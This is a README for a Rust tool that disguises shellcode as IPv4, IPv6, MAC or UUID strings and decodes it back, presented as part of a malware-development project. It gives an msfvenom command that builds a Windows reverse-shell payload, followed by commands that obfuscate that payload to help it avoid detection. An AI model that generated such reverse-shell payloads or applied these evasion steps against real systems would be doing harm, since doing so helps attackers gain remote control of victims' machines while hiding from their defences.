 ## Shellcode Obfuscation and Deobfuscation Technique

With this code you can obfuscate and deobfuscate shellcode using Ipv4, Ipv6, MAC, UUiD formats.

## Usages

#### Due to security reasons. Im removing the payload.bin. You generate the .bin on you own ..!

Example: `msfvenom -p windows/shell/reverse_tcp lhost=eth0 lport=4444 -f raw -o payload.bin`

### Command Format

```
cargo run -- -f <file> -t <technique> -o <operation>
```

### simply run the program to view the usages 

```
cargo run
```
![cargo run](images/cargo_run.png)


### To obfuscate the payload.

```
cargo run -- -f .\payload.bin -t ipv4 -o obfuscate
```
![obfuscate ipv4](images/obfuscating_ipv4.png)

### To Deobfuscate the paylaod 

```
cargo run -- -f .\obfuscated_ipv4.txt -t ipv4 -o deobfuscate
```
![deobfuscate ipv4](images/deobfuscating_ipv4.png)

## ALL USAGES

### Obfuscation Commands

Obfuscate Using IPv4

```
cargo run -- -f .\payload.bin -t ipv4 -o obfuscate
```

Obfuscate Using IPv6

```
cargo run -- -f .\payload.bin -t ipv6 -o obfuscate
```

Obfuscate Using MAC

```
cargo run -- -f .\payload.bin -t mac -o obfuscate
```

Obfuscate Using UUID

```
cargo run -- -f .\payload.bin -t uuid -o obfuscate
```

### Deobfuscation Commands

Deobfuscate Using IPv4

```
cargo run -- -f .\obfuscated_ipv4.txt -t ipv4 -o deobfuscate
```

Deobfuscate Using IPv6

```
cargo run -- -f .\obfuscated_ipv6.txt -t ipv6 -o deobfuscate

```

Deobfuscate Using MAC

```
cargo run -- -f .\obfuscated_mac.txt -t mac -o deobfuscate
```

Deobfuscate Using UUID

```
cargo run -- -f .\obfuscated_uuid.txt -t uuid -o deobfuscate
```

## Resources Used

Thanks for the Wonderful Content and Resource by <b><a href="https://maldevacademy.com/" > Maldev Academy</a></b>.

For more Malware POC and codes visit <b><a href="https://github.com/Whitecat18/Rust-for-Malware-Development.git" > Rust for Malware Development</a></b> Repository. 

By @<a href="https://twitter.com/5mukx" >5mukx </a>
